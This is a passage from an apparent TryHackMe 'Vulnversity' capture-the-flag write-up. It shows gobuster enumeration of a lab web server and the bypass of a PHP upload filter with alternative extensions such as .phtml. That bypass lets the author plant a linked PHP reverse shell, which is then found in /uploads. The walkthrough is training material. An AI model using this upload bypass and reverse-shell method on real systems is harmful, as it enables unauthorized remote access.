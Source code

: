 ```terminal
/server-status        (Status: 403) [Size: 302]                                         

===============================================================
```

Gobuster found a directory called **/internal**, let's check it out.
![Upload](/assets/img/tryhackme/Vulnversity/upload.png)

That's an upload page, let's try to upload a php reverse shell, i this case i will be using [pentestmonkey's php_reverse_shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
> you have to change the ip address in the script to your attacking machine's ip address: run the command `ip a show tun0` or `ifconfig` to get your ip address.

When we try to upload the file, the website seems to be blocking **.php** file extension, we will need to change that, some of the extensions we can use are: **.phar - .pht - phps - phtml - php3 - .php4 - .php5 - .php7**

We can use Burp Suit to automate this process by creating a list that contains the previous extensions.

I will be doing it manually here, we find the the **.phtml** is not blocked, and our reverse shell got uploaded, but we don't know where it went, let's do a second Gobuster scan in the **/internal** directory: `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://{target_IP}:3333/internal`

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.131.61:3333/internal gobuster                                           130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.61:3333/internal
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/05 05:01:29 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/css                  (Status: 301) [Size: 326] [--> http://10.10.131.61:3333/internal/css/]
/index.php            (Status: 200) [Size: 525]                                             
/uploads              (Status: 301) [Size: 330] [--> http://10.10.131.61:3333/internal/uploads/]

===============================================================
```
We found **/uploads** directory, this is where the uploads go, when we navigate to it, we find our shell there.
